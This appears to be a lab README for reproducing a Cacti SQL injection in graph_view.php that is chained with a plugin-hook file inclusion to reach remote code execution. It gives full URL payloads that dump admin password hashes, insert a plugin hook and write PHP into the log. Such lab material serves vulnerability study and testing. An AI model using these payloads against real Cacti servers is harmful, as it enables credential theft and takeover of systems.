 # Cacti graph_view.php SQL Injection Leads to RCE (CVE-2023-39361/CVE-2024-31459)

[中文版本(Chinese version)](README.zh-cn.md)

Cacti is a complete network graphing solution designed to harness the power of RRDTool's data storage and graphing functionality, providing network managers with an intuitive interface to network data.

In Cacti versions 1.2.24 and earlier, a critical vulnerability exists in graph_view.php that allows guest users to perform SQL injection via the 'rfilter' parameter. When guest access is enabled, attackers can potentially cause significant damage, including remote code execution.

References:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## Environment Setup

Execute the following command to start a Cacti 1.2.24 server:

```
docker compose up -d
```

After the server starts, you can access the Cacti interface at `http://your-ip:8080`. The default credentials are admin/admin.

Log in as admin and follow the initialization instructions. Simply click the "Next" button repeatedly until you see the success page.

Before exploiting the vulnerability without authentication, you must enable guest access. Log in as admin, navigate to `Configuration -> Authentication`, and enable the guest user:

![](1.png)

## Vulnerability Reproduction

The vulnerability exists in the `grow_right_pane_tree` function in `graph_view.php`. When the 'action' parameter is set to 'tree_content', the user input ('rfilter' parameter) is validated through the `html_validate_tree_vars` function, but this validation only ensures that the input is a valid regular expression and doesn't prevent SQL injection.

The SQL injection occurs because the rfilter parameter is directly inserted into a SQL query with double quotes, allowing attackers to escape the query context and inject malicious SQL code.

To exploit this vulnerability, send a request to the graph_view.php endpoint with the following parameters:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

The output reveals database information and admin account password:

![](2.png)

Since Cacti supports stacked queries, you can leverage this vulnerability along with [CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv) to achieve local file inclusion.

First, add a new plugin hook that points to the `log/cacti.log` file:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

Then, write PHP code to the `log/cacti.log` file using an error-based SQL injection:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

Now, the PHPINFO function will execute and display when accessing the login page, confirming successful remote code execution:

![](3.png)
